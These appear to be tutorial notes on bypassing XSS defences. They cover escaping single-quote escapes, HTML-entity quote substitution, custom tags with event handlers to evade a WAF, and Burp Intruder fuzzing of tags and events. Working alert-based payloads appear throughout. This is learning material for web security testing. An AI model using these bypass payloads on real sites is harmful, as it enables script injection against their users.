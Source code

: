 # Section 11: XSS - Bypassing Security

## Bypassing Single-Quotes filtering

Reflected XSS

Example: Search text term is injected in JS code

If a single quote is escaped with backward slash, before the single quote:

```
y = 'some string'

x = 'someone\'s name'
```

So a single quote cannot be used to break out of the string and run JS code, because it is escaped

Payload:

```
\';alert(22);//
```

now the backward slash is escaped (with the added backward slash in the start of the payload)

---

## Bypassing Advanced Filtering

Stored XSS

Example: A comment in a blog with a website, the website is injected in an anchor tag on the onclick event

Payload:
```
https://google.com\');alert(44);//
```

but now also the backward slash is escaped with double backslash

<b>Solution</b>: write single quote differently

Payload:
```
https://google.com&apos;);alert(44);//
```

---

## Bypassing Server-Side Filtering

Example: Application protected by WAF (Web Application Firewall)

WAF is filtering all HTML / script tags (HTML injection is not possible)

can try
```
<scRipt>spider</scriPt>
```

but cannot bypass it with capitalized letters either, all tags disallowed

can run:

```
<bla>spider</bla>
```

can use HTML attributes to inject JS code

```
<bla onfocus=alert(2) tabindex=1>spider</bla>
```

---

## Using Burp Intruder

Send Search Request to Intruder,

In Payload Options of Intruder, paste all possible HTML tags from cheat sheat

and modify search

```
GET /?search=<$$>
```

Burp will substitute the two S's with every single item in the list

Found that `body` is not filtered, new search for:

```
GET /?search=<body%20$$>
```

and new Payload options list is now all possible events 

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

found out that onresize responds, new payload is:

```
<body onresize=alert(3)>test</body>
```

---



